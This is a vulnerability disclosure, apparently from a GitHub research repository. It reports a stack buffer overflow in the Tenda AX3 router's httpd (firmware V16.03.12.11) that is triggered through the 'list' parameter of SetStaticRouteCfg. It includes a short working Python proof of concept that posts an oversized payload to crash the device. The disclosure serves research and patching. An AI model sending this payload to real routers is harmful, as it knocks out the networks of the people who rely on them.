 Information
===========

**Vendor of the products**: Tenda <br>

**Vendor's website**: https://www.tenda.com.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: Tenda AX3 <br>

**Affected firmware version**: V16.03.12.11 <br>

**Firmware download address**: https://www.tenda.com.cn/download/detail-3476.html <br>

Overview
===========

**Tenda AX3 V16.03.12.11** has a **stack buffer overflow** vulnerability detected at function **fromSetRouteStatic**. This vulnerability allows attackers to cause a Denial of Service (DoS) via the **list** parameter . <br>

Vulnerability details
=====================
The vulnerability is detected at **/bin/httpd** <br>

In the function **fromSetRouteStatic**, the content obtained by program through parameter **list** given by http is passed to variable **v4**. Variable **v4** enters the function **save_staticroute_data** as a parameter, and a stack overflow vulnerability exists within **save_staticroute_data** <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/13.png) <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/14.png) <br>
<br>

Proof of Code
====================
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/SetStaticRouteCfg"

payload = "a"*0x1000
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

Attack Demo
========
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/15.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/16.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/17.png)
